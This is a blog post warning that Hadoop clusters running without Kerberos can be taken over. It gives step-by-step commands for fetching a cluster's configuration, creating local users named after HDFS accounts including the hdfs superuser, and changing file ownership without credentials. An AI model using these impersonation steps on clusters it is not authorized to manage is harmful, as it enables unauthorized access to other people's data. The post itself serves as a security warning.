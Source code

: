 ```yaml
---
title: Hadoop and no auth?
tags: hadoop hack hdfs yarn security authentication
---
```


Have you setup a hadoop cluster and enabled no authentication for it (kerberos)? You definitely need to read this.

Recently I was working with an engineer who was setting up a HBase cluster and restore some data into it. He uploaded the data to HDFS, setup the hbase data directory configuration and booted the HBase. But the HBase started complaining as follows.

```
Caused by: org.apache.hadoop.ipc.RemoteException(org.apache.hadoop.security.AccessControlException): Permission denied: user=userB, access=WRITE, inode="/foo/bar/hbase":userA:groupZ:drwxr-xr-x
```

So HMaster is not able to read the files in `/foo/bar/hbase` directory as `userB`, because the files are owned by `userA`.

As we were working remotely, I was supposed to ask him the credentials of a Hadoop node from where I could the change the owner of these files. But I didn't. I knew that the HDFS cluster is insecure and I had hadoop binaries on my machine. I just pointed my hadoop tools to his HDFS cluster. Here is how

1. Download the configurations from his cluster
    ```bash
    $ whoami
    mmp
    $ mkdir /tmp/newconf
    $ cd /tmp/newconf
    $ wget http://hdfs.node.com:50070/conf  #namenode http url
    ```

2. Make more copies (hadoop tools, by default load them)
    ```bash
    $ cp conf hdfs-site.xml
    $ cp conf yarn-site.xml
    $ cp conf core-site.xml
    $ cp conf mapred-site.xml
    $ chmod -R 777 /tmp/newconf # let others use them ;)
    ```

3. Point the tools to this new directory
    ```bash
    $ export HADOOP_CONF_DIR=/tmp/newconf
    ```

4. Run the tools
    ```bash
    $ hdfs dfs -chown -R userB:groupY /foo/bar/hbase
    chown: changing ownership of '/foo/bar/hbase': Permission denied. user=mmp is not the owner of inode=hbase
    ```

5. Since the I had logged in as `mmp`, tools I was running were enacting as `mmp`. So I created `userA` in my local machine
    ```bash
    $ useradd userA
    $ sudo su - userA
    [userA@localhost]$ export HADOOP_CONF_DIR=/tmp/newconf
    [userA@localhost]$ hdfs dfs -chown -R userB:groupY /foo/bar/hbase
    chown: changing ownership of '/foo/bar/hbase': Non-super user cannot change owner
    ```

6. Now, `userA` was not defined as a superuser in HDFS configuration, so I can't run this `chown` as `userA`. But `hdfs` user definitely can 
    ```bash
    $ useradd hdfs
    $ sudo su - hdfs
    [hdfs@localhost]$ export HADOOP_CONF_DIR=/tmp/newconf
    [hdfs@localhost]$ hdfs dfs -chown -R userB:groupY /foo/bar/hbase
    [hdfs@localhost]$ hdfs dfs -ls /foo/bar/hbase
    Found 4 items
    drwxr-xr-x   - userB groupY          0 2020-09-09 22:05 /foo/bar/hbase
    ...
    ```


## Conclusion
1. If you have a insecure cluster, it's open for attacks. Attackers can login as any user by
    1. Logging in as the required user in their machine and connecting to your cluster.
    2. Setting the `HADOOP_USER` environment variable to whatever value they want to (`hdfs`, `yarn` which are superusers)
2. I have even seen the Hadoop clusters on Cloud attacked to mine bitcoins, so securing the clusters with authentication mechanisms such as `kerberos` can help securing your resources (memory and cpu)